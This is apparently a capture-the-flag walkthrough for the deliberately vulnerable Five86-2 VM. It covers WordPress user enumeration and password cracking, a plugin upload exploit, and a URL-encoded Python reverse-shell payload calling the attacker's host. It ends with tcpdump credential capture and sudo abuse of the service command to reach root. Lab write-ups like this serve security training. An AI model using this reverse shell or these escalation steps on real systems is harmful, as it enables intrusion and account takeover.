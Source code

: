 # Five86-2

Lets find the IP address first of the victim machine ➡️

![Untitled](/Vulnhub-Files/img/Five86-2/Untitled.png)

```bash
IP : 10.0.2.43
```

## Port Scan Results ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Five86.2]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.0.2.43
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-03 11:36 IST
Nmap scan report for 10.0.2.43
Host is up (0.0020s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT   STATE  SERVICE  VERSION
20/tcp closed ftp-data
21/tcp open   ftp      ProFTPD 1.3.5e
80/tcp open   http     Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: WordPress 5.1.4
|_http-title: Five86-2 &#8211; Just another WordPress site
|_http-server-header: Apache/2.4.41 (Ubuntu)
MAC Address: 08:00:27:19:F4:DF (Oracle VirtualBox virtual NIC)
Service Info: OS: Unix
```

## Web Enumeration ⤵️

Lets set the `/etc/hosts` file as `five86-2`.

![Untitled](/Vulnhub-Files/img/Five86-2/Untitled%201.png)

Now lets run wpscan ➡️

![Untitled](/Vulnhub-Files/img/Five86-2/Untitled%202.png)

got 3 users → admin , barney , stephen 

Lets find the passwords also through wpscan ⤵️

![Untitled](/Vulnhub-Files/img/Five86-2/Untitled%203.png)

```bash
barney : spooky1
stephen : apollo1
```

Lets login with barney credentials →

![Untitled](/Vulnhub-Files/img/Five86-2/Untitled%204.png)

Now in plugin section I found a vulnerable service lets enable it for uploading our payload ⤵️

![Untitled](/Vulnhub-Files/img/Five86-2/Untitled%205.png)

Now through web I got an [exploit](https://www.exploit-db.com/exploits/46981) poc for exploiting this service →

![Untitled](/Vulnhub-Files/img/Five86-2/Untitled%206.png)

So lets follow this path ⬆️

![Untitled](/Vulnhub-Files/img/Five86-2/Untitled%207.png)

Now lets upload our payload →

![Untitled](/Vulnhub-Files/img/Five86-2/Untitled%208.png)

Now After Inserting I got the path so lets load the url ⤵️

![Untitled](/Vulnhub-Files/img/Five86-2/Untitled%209.png)

![Untitled](/Vulnhub-Files/img/Five86-2/Untitled%2010.png)

As I got the command Injection so lets have a reverse shell.

```bash
http://five86-2/wp-content/uploads/articulate_uploads/poc/index.php?cmd=python3%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.0.2.42%22,4444));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27
```

![Untitled](/Vulnhub-Files/img/Five86-2/Untitled%2011.png)

Now lets dig into the shell → 

```bash
www-data@five86-2:/home$ ls -al
ls -al
total 40
drwxr-xr-x 10 root    root    4096 Jan  9  2020 .
drwxr-xr-x 20 root    root    4096 Jan  8  2020 ..
drwx------  2 barney  barney  4096 Jan 13  2020 barney
drwx------  2 george  george  4096 Jan 13  2020 george
drwx------  2 gillian gillian 4096 Jan 13  2020 gillian
drwx------  2 john    john    4096 Jan 13  2020 john
drwx------  3 paul    paul    4096 Jan 13  2020 paul
drwx------  4 peter   peter   4096 Jan 13  2020 peter
drwx------  2 richard richard 4096 Jan 13  2020 richard
drwx------  2 stephen stephen 4096 Jan 13  2020 stephen
www-data@five86-2:
```

Now I got 8 users →

```bash
barney:x:1001:1001:Barney Sumner:/home/barney:/bin/bash
stephen:x:1002:1002:Stephen Morris:/home/stephen:/bin/bash
peter:x:1003:1003:Peter Hook:/home/peter:/bin/bash
gillian:x:1004:1004:Gillian Gilbert:/home/gillian:/bin/bash
richard:x:1005:1005:Richard Starkey:/home/richard:/bin/bash
paul:x:1006:1006:Paul McCartney:/home/paul:/bin/bash
john:x:1007:1007:John Lennon:/home/john:/bin/bash
george:x:1008:1008:George Harrison:/home/george:/bin/bash
```

Lets use the same wpscan passwords for switching to another users →

![Untitled](/Vulnhub-Files/img/Five86-2/Untitled%2012.png)

```bash
stephen@five86-2:/$ id
uid=1002(stephen) gid=1002(stephen) groups=1002(stephen),1009(pcap)
```

Now lets look for the capability files ➡️

![Untitled](/Vulnhub-Files/img/Five86-2/Untitled%2013.png)

So I have tcpdump Lets look for the services/files/ethernet Interface it is running to →

![Untitled](/Vulnhub-Files/img/Five86-2/Untitled%2014.png)

Now lets run the tcpdump at this ⬆️`veth8d3c874` interface and capture some traffic into `cap.pcap` file →

![Untitled](/Vulnhub-Files/img/Five86-2/Untitled%2015.png)

Now I got a credential for paul →

```bash
paul : esomepasswford
```

lets switch user and recon further →

```bash
paul@five86-2:~$ sudo -l
Matching Defaults entries for paul on five86-2:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User paul may run the following commands on five86-2:
    (peter) NOPASSWD: /usr/sbin/service
```

Now call the /bin/sh service for peter to get the peter shell ➡️

```bash
paul@five86-2:~$ sudo -u peter service ../../bin/sh
$ whoami
peter
$ id
uid=1003(peter) gid=1003(peter) groups=1003(peter),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),115(lxd),1010(ncgroup)
$ sudo -l
Matching Defaults entries for peter on five86-2:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User peter may run the following commands on five86-2:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/passwd 
$ sudo passwd root
New password: 
Retype new password: 
passwd: password updated successfully
$ su root
Password: 
root@five86-2:/# whoami
root
root@five86-2:/# id
uid=0(root) gid=0(root) groups=0(root)
root@five86-2:/# ls -al /root
total 48
drwx------  5 root root 4096 Jan 13  2020 .
drwxr-xr-x 20 root root 4096 Jan  8  2020 ..
-rw-------  1 root root 1798 Jan 13  2020 .bash_history
-rw-r--r--  1 root root 3106 Aug 27  2019 .bashrc
drwxr-xr-x  3 root root 4096 Jan  9  2020 .local
-rw-r--r--  1 root root  148 Aug 27  2019 .profile
drwxr-xr-x  3 root root 4096 Jan  8  2020 snap
drwx------  2 root root 4096 Jan  8  2020 .ssh
-rwx------  1 root root  995 Jan  9  2020 thisistheflag.txt
-rw-------  1 root root 8853 Jan 13  2020 .viminfo
```

`thisistheflag.txt` file ⤵️

```bash
root@five86-2:/# cat /root/thisistheflag.txt

__   __            _                           _                                 _ _ _ _ _ 
\ \ / /           | |                         | |                               | | | | | |
 \ V /___  _   _  | |__   __ ___   _____    __| | ___  _ __   ___  __      _____| | | | | |
  \ // _ \| | | | | '_ \ / _` \ \ / / _ \  / _` |/ _ \| '_ \ / _ \ \ \ /\ / / _ \ | | | | |
  | | (_) | |_| | | | | | (_| |\ V /  __/ | (_| | (_) | | | |  __/  \ V  V /  __/ | |_|_|_|
  \_/\___/ \__,_| |_| |_|\__,_| \_/ \___|  \__,_|\___/|_| |_|\___|   \_/\_/ \___|_|_(_|_|_)
                                                                                           
                                                                                           
Congratulations - hope you enjoyed Five86-2.

If you have any feedback, please let me know at @Five86_x

I also want to send out a big thanks to all those who help me with beta testing
of the various challenges:  @m0tl3ycr3w and @syed__umar in particular

root@five86-2:/#
```